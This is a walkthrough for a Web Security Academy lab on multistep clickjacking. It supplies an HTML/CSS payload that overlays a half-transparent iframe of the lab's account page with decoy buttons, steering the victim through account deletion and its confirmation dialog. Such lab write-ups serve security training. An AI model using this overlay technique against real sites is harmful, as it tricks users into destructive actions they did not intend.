 This lab is same as the `Basic clickjacking with CSRF token protection`, except there is an extra confirmation dialog on clicking the "delete account" button. We've to take into account two clicks and align them to suit our exploit code.

Go to exploit server and paste the following code into the body.   

```
<br>
<style>
   #iframeBlock {
       position:relative;
       width:700;
       height:555;
       opacity: 0.500;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:510;
       left:50;
       z-index: 1;
   }
   .secondClick {
       top:310;
       left:200;
   }
</style>
<div class="firstClick">Click me first!</div>
<div class="secondClick">Click me next!</div>
<iframe id="iframeBlock" src="https://ac911f761ec53b4b806b1ae4000100ec.web-security-academy.net/my-account"></iframe>
```


Edit the url and then click on `View exploit` and check whether everything is aligned properly, If everything is okay, then click on `Click me first!` button. Next, check whether our second button is aligned properly or not. Don't click on the second button, as clicking it'll delete the current user account. If everything is aligned properly, go back to exploit server and click on `Deliver exploit to victim` and the lab will be solved!

